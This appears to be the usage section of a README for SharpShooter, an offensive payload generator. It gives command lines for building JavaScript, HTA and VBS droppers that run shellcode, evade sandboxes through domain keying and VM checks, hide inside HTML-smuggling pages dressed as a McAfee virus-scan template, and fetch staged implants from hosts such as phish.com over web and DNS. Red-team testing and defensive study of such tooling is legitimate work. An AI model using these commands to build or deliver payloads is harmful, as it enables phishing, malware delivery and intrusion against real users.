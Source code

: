 Examples of some use cases are provided below:

### Stageless JavaScript ###

```
SharpShooter.py --stageless --dotnetver 4 --payload js --output foo --rawscfile ./raw.txt --sandbox 1=contoso,2,3
```

Create a stageless JavaScript payload targeting version 4 of the .NET framework. This example will create a payload named foo.js in the output directory. The shellcode is read from the ./raw.txt file.
The payload attempts to enforce some sandbox evasion by keying execution to the CONTOSO domain, and checking for known sandbox/VM artifacts.

### Stageless HTA ###

```
SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./raw.txt --sandbox 4 --smuggle --template mcafee
```

Create a stageless HTA payload targeting version 2/3 of the .NET framework. This example will create a payload named foo.hta in the output directory. The shellcode is read from the ./raw.txt file.
The payload attempts to enforce some sandbox evasion by checking for known virtual MAC addresses. A HTML smuggling payload will also be generated named foo.html in the output directory. This payload will use the example McAfee virus scan template.

### Staged VBS ###

```
SharpShooter.py --payload vbs --delivery both --output foo --web http://www.foo.bar/shellcode.payload --dns bar.foo --shellcode --scfile ./csharpsc.txt --sandbox 1=contoso --smuggle --template mcafee --dotnetver 4
```

This example creates a staged VBS payload that performs both Web and DNS delivery. The payload will attempt to retrieve a GZipped CSharp file that executes the shellcode supplied as a CSharp byte array in the csharpsc.txt file. The CSharp file used is the built-in SharpShooter shellcode execution template. The payload is created in the output directory named foo.payload and should be hosted on http://www.foo.bar/shellcode.payload. The same file should also be hosted on the bar.foo domain using PowerDNS to serve it. The VBS file will attempt to key execution to the CONTOSO domain and will be embedded in a HTML file using the HTML smuggling technique with the McAfee virus scanned template. The resultant payload is stored in the output directory named foo.html.

### Custom CSharp inside VBS ###

```
SharpShooter.py --dotnetver 2 --payload js --sandbox 2,3,4,5 --delivery web --refs mscorlib.dll,System.Windows.Forms.dll --namespace MDSec.SharpShooter --entrypoint Main --web http://www.phish.com/implant.payload --output malicious --smuggle --template mcafee
```

This example demonstrates how to create a staged JS payload that performs web delivery, retrieving a payload from http://www.phish.com/implant.payload. The generated payload will attempt sandbox evasion, and attempt to compile the retrieved payload which requires mscorlib.dll and System.Windows.Forms.dll as DLL references. The Main method in the MDSec.SharpShooter namespace will be executed on successful compilation.
